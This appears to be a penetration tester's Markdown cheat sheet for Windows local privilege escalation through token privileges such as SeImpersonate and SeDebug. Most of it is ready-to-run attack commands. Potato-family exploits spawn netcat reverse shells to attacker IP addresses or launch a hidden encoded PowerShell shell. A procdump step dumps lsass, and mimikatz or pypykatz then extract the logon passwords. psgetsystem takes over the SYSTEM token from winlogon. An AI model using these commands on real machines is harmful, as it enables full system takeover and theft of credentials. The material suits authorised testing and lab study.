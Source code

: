 ```yaml
---
tags:
  - Local
  - Privilege-Escalation
  - SeAssignPrimaryPrivilege
  - SeBackupPrivilege
  - SeCreateTokenPrivilege
  - SeDebugPrivilege
  - SeImpersonatePrivilege
  - SeLoadDriverPrivilege
  - SeRestorePrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - AD
---
```

## identify
---
```batch
whoami /priv
```
Or sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
accesschk.exe -p
```

## Exploit
---
#### SeImpersonate & SeAssignPrimaryToken
Windows Server 2016 and under: 
**JuicyPotato** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.119 5555 -e cmd.exe" -t *
```
Windows Server 2019 and on:
**PrintSpoofer**: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Spawn shell over new process *need stable shell*
```cmd
PrintSpoofer.exe -i -c cmd.exe
```
Spawn revshell
```cmd
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
**RoguePotato:** [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
```
RoguePotato.exe -r <IP> -e "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe" -l 9999
```
**SweetPotato**: [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)
```cmd
SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <ENCODED REVSHELL>"
```
OR
```cmd
SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```
**GodPotato**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```cmd
GodPotato.exe -cmd "cmd /c whoami"
```
```cmd
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### SeDebug
___
**Dumping lsass**

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
or with task manager
![](../../assets/Pasted%20image%2020250719100303.png)

read with mimikatz or pypykatz

```plaintext
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

```
pypykatz lsa minidump lsass.dmp
```

**Elevating to SYSTEM**

[https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem)

Using psgetsystem we can launch a child process that inherits the token of the parent process.


```
PS C:\tools> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

We can target the `winlogon.exe` service because its running as SYSTEM.

We can either 1. launch cmd.exe as SYSTEM if we have GUI access or 2. execute an exe to get a reverse shell, add ourselves to a group, or anything else.


```powershell
import-module .\psgetsys.ps1
ImpersonateFromParentPid -ppid 612 -command C:\Windows\Tasks\elev.exe
```

that process will launch with the integrity of the parent. (Hopefully SYSTEM)
